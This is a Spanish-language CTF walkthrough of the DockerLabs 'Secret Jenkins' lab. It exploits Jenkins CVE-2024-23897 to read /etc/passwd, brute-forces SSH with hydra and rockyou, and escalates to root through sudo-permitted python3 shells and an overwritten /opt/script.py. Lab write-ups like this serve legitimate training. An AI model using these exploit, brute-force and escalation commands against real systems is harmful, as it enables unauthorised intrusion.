










# Secret Jenkins

## Dificultad: Facil

Empezamos descargando la imagen de dockerlabs



y luego, seguido de un:

```bash
unzip secretjenkins.zip
```

Para poder descomprimirlo, desplegamos la maquina usando el comando

```bash
sudo ./auto_deploy.sh secretjenkins.tar
```



Ahora que la maquina ya esta desplegada, si podemos comenzar con el hackeo!

# Reconocimiento

Usando nmap podremos escanear la red en busca de los servicios que tiene la maquina dentro

```bash
nmap -sV -p- 172.17.0.2 -Pn

- -sV: Detecta versiones de servicios
- -Pn: No realiza ping a la máquina
- -p-: Escanea todos los puertos
```



Podemos detectar que hay un servicio de Jenkins corriendo en el puerto **8080**, especificamente la version **10.0.18**, ademas de un usual ssh en el puerto **22**.

Al buscar la version usando searchsploit encontramos que no hay una vulnerabilidad en esa version en nuestra maquina

```bash
searchsploit Jetty 10.0.18
Exploits: No Results
Shellcodes: No Results
```

Sin embargo, al entrar a la interfaz de Jenkins, podemos ver que hay un panel de usuario y contraseña, por lo que me llama a seguir buscando un exploit que me permita acceder a la máquina, solo para evitar recurrir a métodos más invasivos.

# Explotación

Luego de una busqueda, podemos encontrar un exploit concreto que nos puede ayudar en este caso. El [CVE-2024-23897](https://nvd.nist.gov/vuln/detail/CVE-2024-23897) que nos permite leer archivos del sistema. Gracias a nuestro querido amigo "El Pinguino de Mario" podemos encontrar un [script en python](https://github.com/Maalfer/CVE-2024-23897) que nos permite explotar esta vulnerabilidad.

Clonamos el repositorio y accedemos a el

```bash
git clone https://github.com/Maalfer/CVE-2024-23897.git
cd CVE-2024-23897
```



Una vez dentro del directorio, podemos ver que hay un archivo python llamado `CVE-2024-23897.py` que usaremos con el mismo ejemplo dentro del repo, para que nos permita leer el archivo `/etc/passwd` de la maquina, para buscar algun usuario divertido.

```bash
python3 CVE-2024-23897.py 172.17.0.2 8080 /etc/passwd
```



Podemos ver dos usuarios que pueden ser interesantes...

- **bobby**
- **pinguinito**

Ambos usuarios parecen ser interesantes, por lo que podemos intentar realizar un ataque de fuerza bruta sobre el ssh del inicio para ver si alguno tiene una credencial, empezemos con bobby.

```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```



Con el usuario bobby podemos ver que ha sido exitoso en el ataque de fuerza bruta, obteniendo la siguiente contraseña:

- **chocolate**

Asi que ahora podemos intentar acceder al ssh de la maquina usando estas credenciales.

```bash
ssh bobby@172.17.0.2
```



Y estamos dentro de la máquina!

# Escalación de privilegios

Una vez dentro utilizamos el comando `sudo -l` para buscar los permisos de sudo que tiene el usuario bobby.

```bash
bobby@7e70d0a3ba24:~$ sudo -l

Matching Defaults entries for bobby on 7e70d0a3ba24:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 7e70d0a3ba24:
    (pinguinito) NOPASSWD: /usr/bin/python3
```

Podemos ver que el usuario bobby puede ejecutar el comando `/usr/bin/python3` como el usuario `pinguinito` sin necesidad de contraseña. Esto significa que podemos intentar cambiar de usuario a `pinguinito` y obtener una shell con privilegios elevados.

Buscando en GTFOBins encontramos que podemos usar el siguiente comando para obtener una shell como el usuario de los permisos:



```bash
sudo -u pinguinito python3 -c 'import os; os.system("/bin/bash")'
```

- **sudo -u pinguinito**: ejecuta el comando como el usuario `pinguinito`
- **python3 -c 'import os; os.system("/bin/bash")'**: ejecuta un comando de Python que importa el módulo `os` y ejecuta una shell de bash

Esto nos dará una shell interactiva como el usuario `pinguinito`, lo que nos permitirá explorar el sistema con mayores privilegios.



Ahora como el usuario pinguinito podemos explorar el sistema con mayores privilegios. Usando otro `sudo -l` podemos revisar sus permisos

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ sudo -l
Matching Defaults entries for pinguinito on 7e70d0a3ba24:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 7e70d0a3ba24:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Podemos ver que el usuario `pinguinito` puede ejecutar el script `/opt/script.py` como cualquier usuario sin necesidad de contraseña. Esto significa que podemos intentar ejecutar este script para obtener una shell con privilegios elevados.

por ende vamos a cambiar el script para que nos de una shell de root en los siguientes pasos:

1. Cambiamos los permisos del script para poder modificarlo

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ chmod +w /opt/script.py
```

2. Modificamos el contenido del script con el payload de la shell de python

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ echo 'import os; os.system("/bin/bash")' > /opt/script.py
```

3. ejecutamos el script con sudo

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ sudo /usr/bin/python3 /opt/script.py
```



Y una vez con el usuario root, hemos conseguido escalar privilegios y obtener acceso total al sistema!